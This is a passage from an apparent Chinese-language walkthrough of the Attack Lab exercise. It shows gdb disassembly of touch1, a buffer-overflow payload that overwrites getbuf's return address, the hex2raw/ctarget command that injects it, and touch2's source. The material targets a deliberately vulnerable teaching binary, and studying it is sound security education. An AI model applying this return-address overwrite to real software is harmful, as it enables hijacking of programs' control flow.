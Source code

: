在栈上分配了0x28=40个字节。

* 然后，再查看函数touch1的汇编代码：

```assembly
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	call   0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>
End of assembler dump.
```

touch1的起始地址为：0x00000000004017c0。因此，只需要使用该地址覆盖函数getbuf的返回地址，在执行完getbuf后，函数touch1就会被调用。

在Attack Lab的说明文档中，有如下说明：

> HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef you should pass “ef be ad de” to HEX2RAW (note the <strong style='color:red;'>reversal required for little-endian byte ordering</strong>).

 little-endian字节序要求：低位字节排放在内存的低地址端，高位字节排放在内存的高地址端。

因此，构造如下字符串填充栈（前4行可以使用任意字符，这里采用了00）：

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00      // 函数touch1的起始地址
```

最后，使用本实验提供的hex2raw生成最终的攻击字符串，并执行代码注入：

```c
./hex2raw -i solution/phase1_solution.txt | ./ctarget -q
```

* `hex2raw -i`表示从文件中读取字符串
* `ctarget -q`表示不向远程服务器发送结果

#### 任务二

任务描述：当函数getbuf返回后，让ctarget执行函数touch2，而不是继续执行函数test。

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
